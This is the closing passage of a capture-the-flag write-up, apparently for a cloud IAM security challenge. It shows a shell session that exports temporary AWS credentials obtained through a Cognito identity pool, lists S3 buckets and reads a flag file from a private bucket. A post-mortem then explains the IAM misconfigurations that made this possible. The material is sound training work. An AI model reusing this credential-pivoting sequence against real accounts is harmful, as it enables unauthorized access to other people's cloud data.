 ```bash
    "Provider": "cognito-identity.amazonaws.com",
    "Audience": "us-east-1:b73cb2d2-0d00-4e77-8e80-f99d9c13da3b"
}
$ export AWS_ACCESS_KEY_ID=ASIARK7LBOHXPDT2U3BW
$ export AWS_SECRET_ACCESS_KEY=CiOKsQIiMBxy3Hav5bQ230c13pycH6vrqmcVp14s
$ export AWS_SESSION_TOKEN=FwoGZXIvYXdzEA0aDJQmv03JEKnQKp8OwCKiAk5V5ehu5IvKBGyZTVERUCaEwt8iHA7bTp2RYKfl0JNwJCxVA0bNDccjD1skSmwmfwb2H67nrKnOsj8zHrJuVXZf32XPfMni+k9tZZaw/i+<...>
$ aws sts get-caller-identity
{
    "UserId": "AROARK7LBOHXASFTNOIZG:HelloThere",
    "Account": "092297851374",
    "Arn": "arn:aws:sts::092297851374:assumed-role/Cognito_s3accessAuth_Role/HelloThere"
}
$ aws s3 ls
2024-06-06 08:21:35 challenge-website-storage-1fa5073
2024-06-06 10:25:59 payments-system-cd6e4ba
2023-06-04 19:07:29 tbic-wiz-analytics-bucket-b44867f
2023-06-05 15:07:44 thebigiamchallenge-admin-storage-abf1321
2023-06-04 18:31:02 thebigiamchallenge-storage-9979f4b
2023-06-05 15:28:31 wiz-privatefiles
2023-06-05 15:28:31 wiz-privatefiles-x1000
$ aws s3 ls s3://wiz-privatefiles-x1000
2023-06-05 21:42:27       4220 cognito2.png
2023-06-05 15:28:35         40 flag2.txt
$ aws s3 cp s3://wiz-privatefiles-x1000/flag2.txt - | cat
{wiz:open-sesame-or-shell-i-say-openid}
```

And this is it. The final challenge is done. Congratulations!

## Post Mortem

I had a great time solving these challenges (unless I didn’t). They were fun, but at the same time complex and deceptive..

Truth be told, some scenarios I was able to solve only with the help of guides from the internet. Only while writing this article did I realize that the image in challenge #5 was actually a clue and not a random picture. Because of this oversight, I had no idea where to look for the Identity Pool ID, so I had to google for a clue. Turns out it was right there all the time -- I just wasn’t bright enough to connect the dots.

But fun aside, all of these challenges represent possible ways an attacker can extract helpful tips, even from the most innocent pieces of information -- like IAM policies. For example, leaving `*` in the `Principal` field allows any actor to subscribe to our queue. And I mean *any* -- including unintended actors.

Another interesting example of possible loopholes is limiting allowed actions to only `s3:GetObject` for all actors. It sounds quite safe, right? How can you get a file you don’t know the name or location of? Turns out, there are ways, thanks to the HTTP endpoints and the `?prefix=` parameter.

And my favorite example of how a malicious actor can follow the breadcrumbs is the leftover of a single ID -- and how it can lead to a full-scale breach of a secured perimeter, compromising sensitive data.
